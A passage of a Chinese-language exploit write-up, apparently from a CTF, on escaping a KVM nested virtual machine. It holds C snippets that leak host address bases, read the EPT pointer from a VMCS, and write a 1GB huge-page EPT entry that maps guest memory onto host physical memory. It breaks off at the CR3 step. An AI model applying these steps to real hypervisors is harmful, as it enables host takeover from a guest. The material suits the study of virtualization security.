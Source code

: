 ```c
        }

        vmemmap_base -= 0x10000000;
    }
    printf("\033[32m\033[1m[+] vmemmap_base:\033[0m 0x%lx\n\n", vmemmap_base);
```

通过嵌套虚拟机VMCS的虚拟地址得到主机的physmap 基址，这里可以先试试掩码（偏移只能是256MB的倍数），但如果此时object地址偏移超过0x10000000的话就需要采用上述遍历的方法，这里侥幸掩码就能成功

```c
   physbase = l2_vmcs_addr & ~0xfffffffull;
```

获得ept
-----

然后通过虚拟机的VMCS的偏移量（之前得到位置偏移量了）进而得到其中EPTP（以主机的物理地址形式存在）

```c
 eptp_value = read_relative(l1_vmcs_offset-50);
```

EPTP是第四级页表的在主机上的物理地址，然后和physbase得到虚拟地址，再和之前的嵌套虚拟机的VMCS的在主机的虚拟地址（也就是一开始的相对任意地址读写的起始那玩意，但后来被泄露出了在主机上的虚拟地址）相减得到偏移，再通过偏移得到EPT表的第一个表项。

```c
eptp_value = read_relative(l1_vmcs_offset-50);
ept_addr = physbase + (eptp_value & ~0xfffull);
ept_offset = (ept_addr-l2_vmcs_addr) / 8;
third_value = read_relative(ept_offset);
```

改虚拟机的的EPT
---------

<https://www.owalle.com/2018/12/10/kvm-memory/>

> EPT表和相关页表项都是主机的物理地址

读出第四级页表的第一个entry后，即第三级页表在主机的物理地址，然后依然是得到在主机上的虚拟地址，然后得到偏移往第三级页表写一个页表项，此时大项可以代表一个1GB，2的九次方*2的九次方*2的十二次方=1GB

```c
third_addr = physbase + (third_value & ~0xfffull);
    pr_info("[exp]: pml4e_addr: %llx\n", pml4e_addr);

    third_offset = (third_addr-l2_vmcs_addr) / 8;
    pr_info("[exp]: pml4e_offset: %llx\n", pml4e_offset);

    write_relative(third_offset + 6, 0x87);
```

此时0x87代表该页表项是个大页，此时 1GB Page Physical Addr是0

此时为了不打乱已有的页表项，这里添加一个，此时是第6个entry，所以对应6GB-7GB，最终虚拟机里的物理地址6GB-7GB映射到主机的物理地址是0GB-1GB

改虚拟机的cr3
--------
